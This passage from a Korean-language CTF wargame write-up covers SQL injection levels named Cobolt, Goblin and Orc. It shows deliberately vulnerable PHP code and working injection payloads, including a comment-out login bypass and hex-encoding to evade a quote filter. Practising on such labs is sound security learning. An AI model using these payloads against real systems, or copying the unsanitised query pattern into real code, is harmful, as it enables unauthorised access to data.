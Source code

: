 ```sql
select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')
-> select id from prob_cobolt where id='admin'-- -' and pw=md5('{$_GET[pw]')
payload = admin'-- -
```
<br>

## Goblin
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
### exploit
이번 문제는 **'**, **"**, **`** 을 필터링한다.<br>
no에 1을 입력하면 hello guest가 출력된이를 통해 guest의 no값이 1이라는 것을 알 수 있다.<br>
이를 이용하여 일부러 틀린 값을 입력하여 guest가 조회되지 않게 한다.<br> 
그 후 id값을 admin으로 변경하여 질의되도록 만들어야한다.<br>
하지만 **'** , **"** 가 필터링되어있기에 문자열을 입력할 수 없다.<br>
이를 우회하기 위해 admin의 16진수 값인 **0x61646d696e** 을 입력하면 문제를 해결할 수 있다.
```sql
select id from prob_goblin where id='guest' and no={$_GET[no]}
-> select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e-- -
payload = 0 or id=0x61646d696e-- -
```
<br>

## Orc
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
<br>
